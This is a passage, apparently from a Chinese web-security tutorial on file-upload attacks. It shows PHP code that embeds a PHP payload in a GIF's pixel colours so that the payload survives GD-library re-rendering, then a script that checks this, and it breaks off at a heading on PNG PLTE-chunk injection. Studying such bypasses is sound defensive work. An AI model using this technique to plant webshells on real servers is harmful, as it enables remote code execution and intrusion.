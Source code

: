 ```php
    $_color_chunks=str_split($colors_hex[$i], 2); 
    $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2])); 
    imagesetpixel($im,$i,1,$color); 
  } 
	imagegif($im,$_file); 
?>
```
 经过一番尝试，找到一个合适的GIF图片，并将PHP代码写入(Payload长度达到了64，还可以继续追加)：  
![image.png](02.文件上传.assets/2023_05_19_14_38_13_2JjOmkh5.png)
 然后将生成的example.gif文件使用GD库渲染得到新图exploit.gif：  
```php
<?php
	$gif = imagecreatefromgif('example.gif');
	imagegif($gif, 'exploit.gif');
	imagedestroy($gif);
?>
```
 重新渲染后，完全就是一样的GIF:  
![image.png](02.文件上传.assets/2023_05_19_14_38_13_q7vdjfeY.png)
 最终也是达到了可以指定GIF图、指定Payload的效果。  
#### PNG 二次渲染
**写入PLTE数据块**